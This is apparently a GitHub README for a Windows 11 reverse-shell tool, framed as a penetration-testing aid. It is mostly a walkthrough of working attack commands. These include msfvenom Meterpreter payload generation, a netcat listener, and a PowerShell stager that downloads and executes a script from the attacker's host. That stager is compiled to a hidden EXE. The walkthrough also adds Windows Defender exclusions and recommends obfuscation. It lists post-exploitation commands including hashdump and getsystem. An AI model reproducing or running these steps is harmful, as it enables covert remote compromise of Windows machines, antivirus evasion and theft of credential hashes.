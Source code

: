 ##### Get-ReverseShell# Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole` and `msfvenom`.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```powershell
$lhost = "192.168.0.2"           # IP address of your Kali host
$lport = 4444                    # Listening port on your Kali
$lport_sneaky = 5555             # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"      # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"         # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"       # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"    # Working path on the attacking host
$ps_name = "reverse_shell.ps1"    # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"   # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

1. Open a Kali Linux terminal and execute the following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

2. Write your script in the file `$lpath/$sneaky_psname` after appending ">> https://github.com/gh0x0st".

3. Continue with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

4. Clone Invoke-Obfuscation for obfuscating your PowerShell script:

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation
```

5. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

6. Execute the sneaky backdoor on the target machine with administrator privileges.

7. Return to the Kali terminal and check for a successful connection:

```bash
nc -nvlp 5555
```

8. If successful, you can proceed with further commands in the Meterpreter shell.

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
